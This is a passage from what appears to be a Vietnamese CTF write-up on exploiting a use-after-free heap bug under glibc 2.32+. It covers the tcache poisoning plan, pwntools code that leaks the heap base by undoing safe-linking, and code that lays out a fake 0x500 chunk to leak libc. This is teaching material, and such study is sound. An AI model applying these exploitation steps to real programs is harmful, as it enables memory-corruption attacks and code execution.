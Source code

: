 ![image](https://user-images.githubusercontent.com/93699926/236653979-c1f484ad-c64b-4ced-9595-160a6e01f2cd.png)

ok vậy để thực hiện kỹ thuât Tache Poisoning , cái ta cần trước hết vẫn là địa chỉ heap , cái cần tiếp theo sẽ là địa chỉ libc, và vì từ glibc.2.32 trở đi ta không thể khai thác thông qua các hook như __free_hook hay __malloc_hook nữa nên ta sẽ phải chuyển qua tấn công saved rip của chương trình.

Vậy kết luận lại , ta có kế hoạch như sau :
```
Step1: leak heap
Step2: leak libc sử dụng unsorted bin
Step3: leak stack sử dụng environ sau khi đã có địa chỉ libc
Step4: Tạo ROPCHAIN ngay tại địa chỉ trả về của hàm nào đó
```

# Step1: Leak heap

để leak heap thì rất dơn giản khi ta có lỗi uaf và lại còn có hàm `2) Print a chunk` nữa. Ta chỉ  cần tạo một chunk sau dó free chunk đó và rồi chọn option2 để là có thể leak được địa chỉ foward pointer của chunk đó. Và như có nói ở trên do chế độ bảo vệ XOR với shift ấy nên ta cũng cần biến đổi một chút để có được địa chỉ heap base:

```python
add(1,0xf8,b"B"*0xf8)
free(0)
view(0)
leak=int.from_bytes(p.recvuntil(b" Allocate",drop=True).split(b"\n")[0],"little")
log.info('[+]leak:'+hex(leak))
heap=leak<<12
log.info('[+]heap base:'+hex(heap))
```

Vậy bây giờ ta đã có heap base để có thể sử dụng kỹ thuật tcache poisoning.

# Step2 : leak libc
Để leak libc thì đơn giản nhất vãn là free chunk vượt quá size của tcache thread , ta cứ free chunk size 0x500 là nó sẽ vô unsorted bin luôn,nhưng vì chương trình chỉ cho ta malloc chunk có kích thước 0x100. Nên ta sẽ sử dụng kỹ thuật để thay đổi foward pointer của của ta chỉ đến một fakechunk có size 0x500.
Và vì sau khi ta free cái chunk có size 0x500 , ta cần tạo một fake chunk nữa ngay liền kề với cái chunk 0x500 mà ta đã tạo ra trước đó, nếu không chương trình sẽ abort với lỗi `malloc():next chunk size`.

Vậy kế hoạch sẽ là tạo ra khoảng 5-7 chunks có kích thước 0x100, với chunk đầu tiên ta sẽ sử dụng để tạo ra fake chunk có size 0x500 và các các chunk sau vì lười tính nên mình sẽ ghi content của chunk đó lặp đi lặp lại với 0 và 0x101. đẻ khi ta free cái fake chunk no sẽ vượt qua cái next chunk size check.

OK vậy ta sẽ sửa script như sau:

```python3
payload=flat(
	0,0,
	0,0x501,
	)
add(0,0xf8,payload) # chunk đầu tiên để tạo ra một fakechunk

payload=flat(
	0,0x101,
	0,0x101,
	0,0x101
	)
for i in range(5):
	add(0,0xf8,payload) # tạo thêm 5 chunks nữa  
add(1,0xf8,b"B"*0xf8) # tạo thêm 1 chunk để sau khi leak heap thì thực hiện kỹ thuật tcache poisoning
```